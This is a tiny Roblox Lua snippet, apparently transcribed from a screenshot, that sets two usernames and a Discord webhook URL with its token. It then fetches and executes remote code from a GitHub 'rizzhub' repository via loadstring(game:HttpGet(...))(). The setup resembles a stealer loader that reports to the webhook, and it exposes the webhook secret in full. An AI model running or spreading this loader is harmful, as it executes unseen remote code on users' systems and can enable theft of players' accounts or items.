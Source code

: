 UserName = "Pr_dogman"
UserName2 = "Pr_dogman"
Webhook = "https://discord.com/api/webhooks/1111096993515839518/tLuxRc9Z2NlpQ7RR57B8XwslPCuO0dpneGeDErMbmVv2EPtDkZl7W_pIGV2aiVMGrtVi"
loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/rizzhub/main/New.lua"))()
